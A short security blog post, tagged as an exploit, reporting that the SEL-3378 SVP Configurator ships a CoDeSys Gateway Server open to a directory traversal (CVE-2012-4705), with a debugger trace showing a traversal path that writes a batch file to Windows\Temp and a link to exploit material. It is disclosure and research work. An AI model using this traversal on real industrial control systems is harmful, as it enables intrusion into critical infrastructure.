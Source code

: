 ```yaml
---
layout: post
title: SEL-3378 SVP Configurator 
date: 2020-01-07
excerpt: "."
tags: [exploit]
comments: false
---
```

## SEL-3378 SVP Configurator Gateway Server Directory Traversal
the SEL-3378 SVP Configurator (2.3.7.2-2.2-1) comes bundled with
SCADA 3S CoDeSys Gateway Server (2.3.7.1) which is vulnerable to 
CVE-2012-4705.
```
0:001> bp Kernel32!CreateFileA ".printf \"[*]: %ma\",poi(esp+0x4);.echo"
0:001> g
[*]: C:\Windows\Gateway Files\..\..\Windows\Temp\calc.bat
eax=00000002 ebx=002b0f68 ecx=c0000000 edx=0146fc18 esi=002b0f68 edi=00000000
eip=759ecee8 esp=0146f95c ebp=0146f984 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000202
kernel32!CreateFileA:
759ecee8 8bff            mov     edi,edi
```
[SEL-3378](https://github.com/ceballosm/scratchpad/tree/master/SEL/SEL-3378)
